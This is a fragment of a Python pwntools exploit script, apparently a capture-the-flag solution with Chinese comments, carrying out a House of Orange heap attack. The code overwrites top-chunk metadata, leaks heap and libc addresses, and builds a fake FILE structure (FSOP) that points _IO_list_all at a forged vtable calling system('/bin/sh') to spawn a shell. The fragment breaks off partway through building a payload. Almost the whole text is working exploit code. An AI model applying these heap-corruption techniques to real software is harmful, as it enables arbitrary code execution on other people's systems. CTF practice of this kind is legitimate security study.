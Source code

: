 ```python
payload += b'c'*0x18+p64(0x21)
payload += b'd'*0x18+p64(0x21)
payload += b'e'*0x18+p64(0x21)
payload += b'f'*0x18+p64(0x21)
payload += b'g'*0x18+p64(0x21)
payload += b'h'*0x18+p64(0x21)
payload += b'i'*0x18+p64(0xee1)    # top chunk

# top chunk overwriting 这个地方可以将其他地方都覆盖，一直覆盖到top chunk
edit(0,payload)

# 获取heap_addr,因为输入使用的read函数，所以末尾不是\0
# 因为print_author中有scanf函数，scanf会自动生成一个0x1000的heap chunk
# 所以直接就满足了House of Orange
heap_addr = print_author() 
info(f'{heap_addr=:x}')

# flush the 9th ptr
edit(0,'')
add(0x20,'ethanyi9')

payload = b'a'*0x18+p64(0x21)
payload += b'b'*0x18+p64(0x21)
payload += b'c'*0x18+p64(0x21)
payload += b'd'*0x18+p64(0x21)
payload += b'e'*0x18+p64(0x21)
payload += b'f'*0x18+p64(0x21)
payload += b'g'*0x18+p64(0x21)
payload += b'h'*0x20
payload += b'i'*0x18+p16(0x0ec1)+p16(0xaaaa)+p32(0xdeadbeef) # top chunk

# --------edit(0,payload)----------
io.sendlineafter(b'choice :',b'3')
io.sendlineafter(b"Index of page :",str(0))
io.sendafter(b"Content:",payload)

show(7)
main_arena = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 1640
malloc_hook = main_arena-0x10
libc.address = malloc_hook - libc.sym['__malloc_hook']
_IO_list_all = libc.sym['_IO_list_all']
system_addr = libc.sym['system']

info(f'{libc.address=:x}')
info(f'{_IO_list_all=:x}')
info(f'{main_arena =:x}')

edit(0,'')
add(0x20,'ethanyi9')

# FSOP
orange = b'/bin/sh\x00' + p64(0x61)           # _IO_list_all
orange += p64(0) + p64(_IO_list_all - 0x10)     
orange += p64(2) + p64(3)                     # _IO_write_base < _IO_write_ptr 
orange = orange.ljust(0xc0, b'\x00')            
orange += p64(0) * 3                          # mode 
orange += p64(heap_addr+0x180+0xc0+0x18)      # vtable指针,其中：top_chunk_addr+0xc0+0x18
orange += p64(0) * 2 + p64(system_addr) 
 
payload = b'a'*0x18+p64(0x21)
payload += b'b'*0x18+p64(0x21)
payload += b'c'*0x18+p64(0x21)
payload += b'd'*0x18+p64(0x21)
```